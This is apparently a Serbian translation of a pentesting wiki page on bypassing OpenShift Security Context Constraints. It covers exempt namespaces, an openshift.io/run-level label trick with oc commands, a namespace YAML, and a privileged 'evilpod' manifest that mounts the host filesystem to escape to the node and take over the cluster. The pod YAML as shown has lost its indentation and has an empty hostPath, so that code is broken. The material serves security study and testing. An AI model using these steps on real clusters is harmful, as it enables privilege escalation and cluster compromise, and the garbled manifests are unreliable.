# Openshift - Bypassovanje SCC

**Originalni autor ove stranice je** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privilegovani Prostori Imena

Prema podrazumevanim podešavanjima, SCC se ne primenjuje na sledeće projekte:

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

Ako implementirate podove unutar jednog od ovih imenskih prostora, nijedan SCC neće biti primenjen, što omogućava implementaciju privilegovanih podova ili montiranje fajl sistema domaćina.

## Oznaka Imenskog Prostora

Postoji način da se onemogući primena SCC-a na vašem podu prema RedHat dokumentaciji. Potrebno je da imate barem jedno od sledećih ovlašćenja:

* Kreirajte Imenski Prostor i Kreirajte Pod u ovom Imenskom Prostoru
* Uredite Imenski Prostor i Kreirajte Pod u ovom Imenskom Prostoru
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Specifična oznaka `openshift.io/run-level` omogućava korisnicima da zaobiđu SCC-ove za aplikacije. Prema RedHat dokumentaciji, kada se koristi ova oznaka, nijedan SCC nije primenjen na sve podove unutar tog imenskog prostora, efikasno uklanjajući bilo kakva ograničenja.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Dodavanje Oznake

Za dodavanje oznake u vaš imenski prostor:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Da biste kreirali namespace sa oznakom putem YAML datoteke:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Sada, svi novi podovi kreirani u namespace-u ne bi trebalo da imaju bilo koji SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

U odsustvu SCC-a, nema ograničenja na definiciju vašeg poda. To znači da se zlonamerni pod može lako kreirati da bi pobegao na sistem domaćina.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Sada je postalo lakše eskalirati privilegije kako bi se pristupilo hosts sistemu i kasnije preuzelo ceo klaster, stekavši privilegije 'cluster-admin'. Potražite deo **Node-Post Exploitation** na sledećoj stranici:

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Prilagođene oznake

Osim toga, na osnovu ciljanog podešavanja, neke prilagođene oznake / anotacije mogu se koristiti na isti način kao u prethodnom scenariju napada. Čak i ako nije namenjeno, oznake se mogu koristiti za davanje dozvola, ograničavanje ili ne davanje pristupa određenim resursima.

Pokušajte da pronađete prilagođene oznake ako možete da pročitate neke resurse. Evo liste zanimljivih resursa:

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Nabroj sve privilegovane namespace-ove
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Napredna eksploatacija

U OpenShift-u, kao što je ranije prikazano, imati dozvolu za implementaciju poda u namespace-u sa oznakom `openshift.io/run-level` može dovesti do jednostavnog preuzimanja klastera. Sa aspekta podešavanja klastera, ova funkcionalnost **ne može biti onemogućena**, jer je inherentna dizajnu OpenShift-a.

Međutim, mere zaštite poput **Open Policy Agent GateKeeper**-a mogu sprečiti korisnike da postave ovu oznaku.

Da bi zaobišli pravila GateKeeper-a i postavili ovu oznaku radi izvršenja preuzimanja klastera, **napadači bi trebali identifikovati alternativne metode.**

## Reference

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)

